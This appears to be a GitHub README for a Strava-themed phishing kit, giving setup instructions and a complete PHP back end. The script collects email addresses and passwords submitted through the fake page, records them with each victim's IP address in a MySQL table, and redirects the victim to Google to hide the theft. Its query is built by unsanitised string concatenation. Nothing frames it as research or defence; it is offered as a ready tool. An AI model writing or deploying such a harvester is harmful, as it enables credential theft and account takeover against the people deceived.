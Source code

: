 --------------------------------------------------------------------------------------------------------------------
Phishing templates.
---------------------------------------------------------------------------------------------------------------------
Strava phishing



Db connection
-------------
Create a database, modify the following text in php and add it to the files.

PHP connection:
---------------------------------------------------------------------------------------------------------------------
"<?php

$servername = "localhost";

$database = "X";

$username = "X";

$password = "X";

// creamos conexion

  $conn = mysqli_connect($servername, $username, $password, $database);
  
//si estan todos los campos rellenos los insertamos en la base de datos

  if( isset($_GET["email"]) && isset($_GET["password"]) && isset($_SERVER["REQUEST_METHOD"]) ){
  
$pass = $_GET["password"];

$mail = $_GET["email"];

 if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
        $ipAddress = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ipAddress = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
        $ipAddress = $_SERVER['REMOTE_ADDR'];
    }

  $insert = "insert into datos values('$mail', '$pass', '(WEB)', '$ipAddress')";

//realizamos consulta para insertar los datos

  $return = mysqli_query( $conn, $insert);
  
  print_r( ( $return));
        header("Location: https://www.google.es");
        exit();
        
}

mysqli_close( $conn);

?>"



